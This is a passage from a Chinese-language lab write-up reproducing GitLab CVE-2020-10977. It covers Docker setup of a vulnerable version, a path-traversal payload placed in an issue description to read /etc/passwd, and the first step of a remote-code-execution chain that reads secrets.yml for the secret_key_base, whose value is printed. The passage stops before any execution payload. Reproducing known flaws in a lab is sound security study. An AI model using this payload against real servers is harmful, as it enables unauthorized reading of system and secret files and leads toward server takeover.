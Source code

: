 https://chybeta.github.io/2018/09/10/GitLab%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-14364%E3%80%91/  
  
https://www.cnblogs.com/0x28/p/15685245.html  
## 0x04 任意文件读取导致远程命令执行漏洞（CVE-2020-10977）  
### 一、漏洞描述  
  
GitLab EE/CE 8.5 至 12.9.0在项目之间移动 issue 时容易受到路径遍历的影响，可造成任意文件读取。该漏洞在 12.9.1、12.8.8 和 12.7.8 中得到修复。当引入易受攻击的 experimentation_subject_id  
cookie 时，RCE 仅影响 版本 12.4.0 及更高版本。  
  
关于该漏洞的最初报告详情请看：  
  
https://hackerone.com/reports/827052  
### 二、环境搭建  
  
采用12.8.7版本来进行复现  
```
sudo docker pull gitlab/gitlab-ce:12.8.7-ce.0
sudo docker run -it -p 443:443 -p 80:80 -p 222:22 -d image_id
```  
### 三、漏洞复现  
#### 1.任意文件读取  
  
新建两个项目test1和test2  
  
在test1中新建issue，其中的Description中填入：  
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```  
  
提交后点击Move issue，将其移动到test2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcLJIGBL8uDibjSqZIZJZfR3Lf5PgZRAwn2UibWHYve7FzHibD12XJ8Ksjg/640?wx_fmt=png&from=appmsg "")  
  
接着会在test2的issue中看到一个passwd附件，点击下载，然后用文本打开：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc4bWHv18XK5Hic5ess46lVibDD7vgwlTyicJkOhiazsQGNdXUke7lVomnLQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcfeYtfuz55P9z8cKg2AIAED9RdLPvgqpoeGTxbiaIY5ib6tNKdE0G1grg/640?wx_fmt=png&from=appmsg "")  
#### 2.远程代码执行  
  
首先利用文件读取漏洞，读取/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
文件，获取secret_key_base  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcGxxqwRr93s5KqxjbcPUs9nHB0QpLocmuqlHYiclsicSLfSV6l0kGhT9Q/640?wx_fmt=png&from=appmsg "")  
  
可以看到此处为：  
```
secret_key_base: 2fa81f053d43c58f403a39534432f41b73b8d15c21b9450e523d7188e10235b286d42e85a6ee76639163ad77d9ba8e58176cc0849374a7e6b22c803a6ca8a24e
```  
  